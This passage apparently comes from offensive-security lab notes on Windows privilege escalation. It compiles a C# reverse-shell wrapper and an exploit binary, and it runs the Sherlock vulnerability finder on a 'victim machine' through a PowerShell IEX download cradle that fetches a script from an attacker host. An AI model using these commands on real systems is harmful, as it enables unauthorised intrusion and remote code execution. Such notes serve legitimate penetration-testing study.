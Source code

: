            // we attach the ProcessStartInfo object to the process, and start the process
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}

# compile our program using the Mono mcs compiler
mcs Wrapper.cs

# ON WINDOWS
c:\windows\Microsoft.NET\Framework\v3.5\csc.exe /t:exe /out:Simple_Rev_Shell443.exe Simple_Rev_Shell443.cs
</code></pre>
{% endtab %}

{% tab title="Wine" %}
```bash
# On Kali
wine [executable.exe]
```
{% endtab %}

{% tab title="Windows target" %}
<pre class="language-bash"><code class="lang-bash"># Check if mingw-w64.bat is present on the Windows target or our Windows VM
<strong># Run mingw-w64.bat and then gcc.exe to confirm it is working properly
</strong>gcc $C_FILE -o exploit.exe
</code></pre>
{% endtab %}

{% tab title="Python" %}
{% content-ref url="../../enumeration/web-technologies/python.md" %}
[python.md](../../enumeration/web-technologies/python.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Sherlock

```bash
https://github.com/rasta-mouse/Sherlock
# Ideal to find kernel exploits of outdated OSes.
# Add this line at the end of .ps1 file:
Find-AllVulns
# THIS IS THE WAY TO EXECUTE IT WITHOUT TRANSFER IT TO THE VICTIM MACHINE
PS > IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/Sherlock.ps1')
# Wait a bit, it may take several minutes to find all vulns.
```

## **EternalBlue (MS17-010)**

